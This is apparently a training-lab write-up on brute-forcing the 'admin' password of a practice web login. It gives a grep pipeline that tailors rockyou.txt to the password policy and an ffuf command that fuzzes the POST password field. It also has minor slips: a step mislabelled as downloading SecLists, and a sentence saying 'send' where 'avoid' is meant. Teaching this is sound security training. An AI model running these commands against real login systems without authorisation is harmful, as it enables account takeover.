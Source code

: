 # Brute-Forcing Passwords

### What is the password of the user 'admin'?

In this assessment we already have the user 'admin' and the goal is to get the his password. To accomplish that will use the rockyou.txt wordlist, but tailor the passwords to the application requirements in order to send unnecessary requests.

Password Requirments:

* Contains at least one upper-case character
* Contains at least one lower-case character
* Contains at least one digit
* Minimum length of 10 characters

**Step 1 -** Download the SecLists wordlist:

* {% code overflow="wrap" %}
  ```
  grep '[[:upper:]]' /usr/share/wordlists/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
  ```
  {% endcode %}
* Check your rockyou.txt directory.

**Step 2 -** Intercept the application POST login parameters:

* This can be done through the Inspect Element or with Burp Suite

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3 -** Brute-force the password:

* {% code overflow="wrap" %}
  ```
  ffuf -w ./custom_wordlist.txt -u http://SERVER_IP:SERVER_PORT/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
  ```
  {% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And after a few seconds we manage to get the admin passowrd!
